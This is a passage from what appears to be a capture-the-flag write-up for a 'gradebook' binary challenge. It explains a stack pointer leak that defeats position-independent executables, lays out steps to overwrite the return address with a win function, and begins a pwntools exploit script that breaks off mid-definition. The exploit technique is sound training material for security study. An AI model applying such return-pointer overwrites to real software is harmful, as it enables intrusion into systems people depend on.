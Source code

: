 But the binary is turned on Position-Independent-Executables so I need a leak.

Debugging for a while and I realized there's a potential stack pointer leak.

![](./gradebook4.png)

The binary memset 0x48 bytes starting from $rax with "SPACE" character. And right next after that 0x48 bytes is a stack pointer.

And right after that memset I see the program use memcpy with maximum input that user is allowed to input, which means the null-terminator from scanf is pretty useless here if we input maximum number of character allowed.

The stack leak combined with the arbitrary offset from the gradebook allows me changing the return pointer to the win function.

Strategy:

- Write valid gradebook.
- Stack pointer leak.
- Overwrite the gradebook again with the file size as (uint64_t)-1 and offset_for_first_chunk as the correct offset such that (first_chunk + 0x1e) = return pointer (check_gradebook_and_execute+145).
- Update_gradebook with the last LSB of win function.

```python
from pwn import *
import sys

DEBUG = 0


def info(classr : bytes,
         course_title : bytes,
         grade : bytes,
         teacher : bytes,
         room : int,
         period :int):
    inf = classr.ljust(0x8, b' ')
    inf += course_title.ljust(0x16, b' ')
    inf += grade.ljust(0x2, b' ')
    inf += teacher.ljust(0xc, b' ')
    inf += p32(room)
    inf += p64(period)
    print(hex(len(inf)))
    return inf


def gradebook(filesz : int,
              offset_current_chunk : int,
```